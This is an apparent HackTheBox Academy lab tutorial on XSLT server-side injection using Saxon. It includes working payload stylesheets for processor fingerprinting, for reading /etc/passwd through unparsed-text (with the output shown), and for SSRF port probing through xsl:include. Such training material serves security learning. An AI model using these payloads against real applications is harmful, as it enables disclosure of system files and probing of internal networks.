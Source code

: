 Extensible Stylesheet Language Transformations (`XSLT`) is an XML-based language usually used when transforming XML documents into HTML, another XML document, or PDF. Extensible Stylesheet Language Transformations Server-Side Injection can occur when arbitrary XSLT file upload is possible or when an application generates the XSL Transformation’s XML document dynamically using unvalidated input from the user.

Depending on the case, XSLT uses built-in functions and the XPATH language to transform a document either in the browser or the server. Extensible Stylesheet Language Transformations are present in some web applications as standalone functionality, SSI engines, and databases like Oracle. At the time of writing, there are 3 ([1](https://www.w3.org/TR/xslt-10/), [2](https://www.w3.org/TR/xslt20/), [3](https://www.w3.org/TR/xslt-30/)) XSLT versions. Version 1 is the least interesting from an attacker's perspective due to the limited built-in functionality. The most used XSLT-related projects are LibXSLT, Xalan, and Saxon. To exploit XSLT Injections, we need to store malicious tags on the server-side and access that content.

Let us experiment with XSLT by using a combination of Saxon with XSLT Version 2.

First, install the required packages on Pwnbox or a local VM, as follows:

#### Installation of required packages

```shell
p3ta@htb[/htb]$ sudo apt install default-jdk libsaxon-java libsaxonb-java
```

Next, create the following files:

#### catalogue.xml

Code: xml

```xml
<?xml version="1.0" encoding="UTF-8"?> <catalog> <cd> <title>Empire Burlesque</title> <artist>Bob Dylan</artist> <country>USA</country> <company>Columbia</company> <price>10.90</price> <year>1985</year> </cd> <cd> <title>Hide your heart</title> <artist>Bonnie Tyler</artist> <country>UK</country> <company>CBS Records</company> <price>9.90</price> <year>1988</year> </cd> <cd> <title>Greatest Hits</title> <artist>Dolly Parton</artist> <country>USA</country> <company>RCA</company> <price>9.90</price> <year>1982</year> </cd> <cd> <title>Still got the blues</title> <artist>Gary Moore</artist> <country>UK</country> <company>Virgin records</company> <price>10.20</price> <year>1990</year> </cd> <cd> <title>Eros</title> <artist>Eros Ramazzotti</artist> <country>EU</country> <company>BMG</company> <price>9.90</price> <year>1997</year> </cd> <cd> <title>One night only</title> <artist>Bee Gees</artist> <country>UK</country> <company>Polydor</company> <price>10.90</price> <year>1998</year> </cd> <cd> <title>Sylvias Mother</title> <artist>Dr.Hook</artist> <country>UK</country> <company>CBS</company> <price>8.10</price> <year>1973</year> </cd> <cd> <title>Maggie May</title> <artist>Rod Stewart</artist> <country>UK</country> <company>Pickwick</company> <price>8.50</price> <year>1990</year> </cd> <cd> <title>Romanza</title> <artist>Andrea Bocelli</artist> <country>EU</country> <company>Polydor</company> <price>10.80</price> <year>1996</year> </cd> <cd> <title>When a man loves a woman</title> <artist>Percy Sledge</artist> <country>USA</country> <company>Atlantic</company> <price>8.70</price> <year>1987</year> </cd> <cd> <title>Black angel</title> <artist>Savage Rose</artist> <country>EU</country> <company>Mega</company> <price>10.90</price> <year>1995</year> </cd> <cd> <title>1999 Grammy Nominees</title> <artist>Many</artist> <country>USA</country> <company>Grammy</company> <price>10.20</price> <year>1999</year> </cd> <cd> <title>For the good times</title> <artist>Kenny Rogers</artist> <country>UK</country> <company>Mucik Master</company> <price>8.70</price> <year>1995</year> </cd> <cd> <title>Big Willie style</title> <artist>Will Smith</artist> <country>USA</country> <company>Columbia</company> <price>9.90</price> <year>1997</year> </cd> <cd> <title>Tupelo Honey</title> <artist>Van Morrison</artist> <country>UK</country> <company>Polydor</company> <price>8.20</price> <year>1971</year> </cd> <cd> <title>Soulsville</title> <artist>Jorn Hoel</artist> <country>Norway</country> <company>WEA</company> <price>7.90</price> <year>1996</year> </cd> <cd> <title>The very best of</title> <artist>Cat Stevens</artist> <country>UK</country> <company>Island</company> <price>8.90</price> <year>1990</year> </cd> <cd> <title>Stop</title> <artist>Sam Brown</artist> <country>UK</country> <company>A and M</company> <price>8.90</price> <year>1988</year> </cd> <cd> <title>Bridge of Spies</title> <artist>T`Pau</artist> <country>UK</country> <company>Siren</company> <price>7.90</price> <year>1987</year> </cd> <cd> <title>Private Dancer</title> <artist>Tina Turner</artist> <country>UK</country> <company>Capitol</company> <price>8.90</price> <year>1983</year> </cd> <cd> <title>Midt om natten</title> <artist>Kim Larsen</artist> <country>EU</country> <company>Medley</company> <price>7.80</price> <year>1983</year> </cd> <cd> <title>Pavarotti Gala Concert</title> <artist>Luciano Pavarotti</artist> <country>UK</country> <company>DECCA</company> <price>9.90</price> <year>1991</year> </cd> <cd> <title>The dock of the bay</title> <artist>Otis Redding</artist> <country>USA</country> <company>Stax Records</company> <price>7.90</price> <year>1968</year> </cd> <cd> <title>Picture book</title> <artist>Simply Red</artist> <country>EU</country> <company>Elektra</company> <price>7.20</price> <year>1985</year> </cd> <cd> <title>Red</title> <artist>The Communards</artist> <country>UK</country> <company>London</company> <price>7.80</price> <year>1987</year> </cd> <cd> <title>Unchain my heart</title> <artist>Joe Cocker</artist> <country>USA</country> <company>EMI</company> <price>8.20</price> <year>1987</year> </cd> </catalog>
```

#### transformation.xsl

Code: xml

```xml
<?xml version="1.0" encoding="UTF-8"?> <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"> <xsl:template match="/"> <html> <body> <h2>My CD Collection</h2> <table border="1"> <tr bgcolor="#9acd32"> <th>Title</th> <th>Artist</th> </tr> <tr> <td><xsl:value-of select="catalog/cd/title"/></td> <td><xsl:value-of select="catalog/cd/artist"/></td> </tr> </table> </body> </html> </xsl:template> </xsl:stylesheet>
```

We need to understand the XSLT format to see how the transformation works.

-   The first line is usually the XML version and encoding
-   Next, it will have the XSL root node `xsl:stylesheet`
-   Then, we will have the directives in `xsl:template match="<PATH>"`. In this case, it will apply to any XML node.
-   After that, the transformation is defined for any item in the XML structure matching the previous line.
-   To select certain items from the XML document, XPATH language is used in the form of `<xsl:value-of select="<NODE>/<SUBNODE>/<VALUE>"/>`.

To see the results, we will use the command line parser. This can be done as follows:

#### Transformation through the terminal

```shell
p3ta@htb[/htb]$ saxonb-xslt -xsl:transformation.xsl catalogue.xml

Warning: at xsl:stylesheet on line 3 column 50 of transformation.xslt:
  Running an XSLT 1.0 stylesheet with an XSLT 2.0 processor
<html>
   <body>
      <h2>My CD Collection</h2>
      <table border="1">
         <tr bgcolor="#9acd32">
            <th>Title</th>
            <th>Artist</th>
         </tr>
         <tr>
            <td>Empire Burlesque</td>
            <td>Bob Dylan</td>
         </tr>
      </table>
   </body>
</html>
```

The following file can be used to detect the underlying preprocessor.

#### detection.xsl

Code: xml

```xml
<?xml version="1.0" encoding="UTF-8"?> <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"> <xsl:output method="html"/> <xsl:template match="/"> <h2>XSLT identification</h2> <b>Version:</b> <xsl:value-of select="system-property('xsl:version')"/><br/> <b>Vendor:</b> <xsl:value-of select="system-property('xsl:vendor')" /><br/> <b>Vendor URL:</b><xsl:value-of select="system-property('xsl:vendor-url')" /><br/> </xsl:template> </xsl:stylesheet>
```

Let us now run the previous command, but this time, using the detection.xsl file.

#### Transformation through the terminal

```shell
p3ta@htb[/htb]$ saxonb-xslt -xsl:detection.xsl catalogue.xml

Warning: at xsl:stylesheet on line 2 column 80 of detection.xsl:
  Running an XSLT 1.0 stylesheet with an XSLT 2.0 processor
<h2>XSLT identification</h2><b>Version:</b>2.0<br><b>Vendor:</b>SAXON 9.1.0.8 from Saxonica<br><b>Vendor URL:</b>http://www.saxonica.com/<br>
```

Based on the preprocessor, we can go to the XSLT documentation for this version to identify functions of interest, such as the below.

-   `unparsed-text` can be used to read local files.

#### readfile.xsl

Code: xml

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0"> <xsl:template match="/"> <xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')"/> </xsl:template> </xsl:stylesheet>
```

#### Transformation through the terminal

```shell
p3ta@htb[/htb]$ saxonb-xslt -xsl:readfile.xsl catalogue.xml

Warning: at xsl:stylesheet on line 1 column 111 of readfile.xsl:
  Running an XSLT 1.0 stylesheet with an XSLT 2.0 processor
<?xml version="1.0" encoding="UTF-8"?>root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
<SNIP>
```

-   `xsl:include` can be used to perform SSRF

We can also mount SSRF attacks if we have control over the transformation.

#### ssrf.xsl

Code: xml

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0"> <xsl:include href="http://127.0.0.1:5000/xslt"/> <xsl:template match="/"> </xsl:template> </xsl:stylesheet>
```

#### Transformation through the terminal

```shell
p3ta@htb[/htb]$ saxonb-xslt -xsl:ssrf.xsl catalogue.xml

Warning: at xsl:stylesheet on line 1 column 111 of ssrf.xsl:
  Running an XSLT 1.0 stylesheet with an XSLT 2.0 processor
Error at xsl:include on line 2 column 49 of ssrf.xsl:
  XTSE0165: java.io.FileNotFoundException: http://127.0.0.1:5000/xslt
Failed to compile stylesheet. 1 error detected.
```

```shell
p3ta@htb[/htb]$ saxonb-xslt -xsl:ssrf.xsl catalogue.xml

Warning: at xsl:stylesheet on line 1 column 111 of ssrf.xsl:
  Running an XSLT 1.0 stylesheet with an XSLT 2.0 processor
Error at xsl:include on line 2 column 49 of ssrf.xsl:
  XTSE0165: java.net.ConnectException: Connection refused (Connection refused)
Failed to compile stylesheet. 1 error detected.
```

Check the different responses above when we hit an open or closed port. If you want to try this yourself in Pwnbox or a local machine, try executing the `saxonb-xslt` command above one time with nothing listening on port 5000 and one time with an HTTP server listening on port 5000 (`sudo python3 -m http.server 5000` in a separate tab or terminal).

We presented some tech-stack-identification XSL files at the beginning of this section. Below is one more, larger than the previous ones. Try using it to reproduce the example above.

#### fingerprinting.xsl

Code: xml

```xml
<?xml version="1.0" encoding="ISO-8859-1"?> <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"> <xsl:template match="/"> Version: <xsl:value-of select="system-property('xsl:version')" /><br /> Vendor: <xsl:value-of select="system-property('xsl:vendor')" /><br /> Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" /><br /> <xsl:if test="system-property('xsl:product-name')"> Product Name: <xsl:value-of select="system-property('xsl:product-name')" /><br /> </xsl:if> <xsl:if test="system-property('xsl:product-version')"> Product Version: <xsl:value-of select="system-property('xsl:product-version')" /><br /> </xsl:if> <xsl:if test="system-property('xsl:is-schema-aware')"> Is Schema Aware ?: <xsl:value-of select="system-property('xsl:is-schema-aware')" /><br /> </xsl:if> <xsl:if test="system-property('xsl:supports-serialization')"> Supports Serialization: <xsl:value-of select="system-property('xsl:supportsserialization')" /><br /> </xsl:if> <xsl:if test="system-property('xsl:supports-backwards-compatibility')"> Supports Backwards Compatibility: <xsl:value-of select="system-property('xsl:supportsbackwards-compatibility')" /><br /> </xsl:if> </xsl:template> </xsl:stylesheet>
```

#### Transformation through the terminal

```shell
p3ta@htb[/htb]$ saxonb-xslt -xsl:fingerprinting.xsl catalogue.xml

Warning: at xsl:stylesheet on line 2 column 80 of fingerprinting.xsl:
  Running an XSLT 1.0 stylesheet with an XSLT 2.0 processor
<?xml version="1.0" encoding="UTF-8"?>
 Version: 2.0<br/>
 Vendor: SAXON 9.1.0.8 from Saxonica<br/>
 Vendor URL: http://www.saxonica.com/<br/>
 Product Name: SAXON<br/>
 Product Version: 9.1.0.8<br/>
 Is Schema Aware ?: no<br/>
 Supports Serialization: <br/>
 Supports Backwards Compatibility: <br/>
```

We can also use the following [wordlist](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/xslt.txt) for brute-forcing functionality available in target applications.
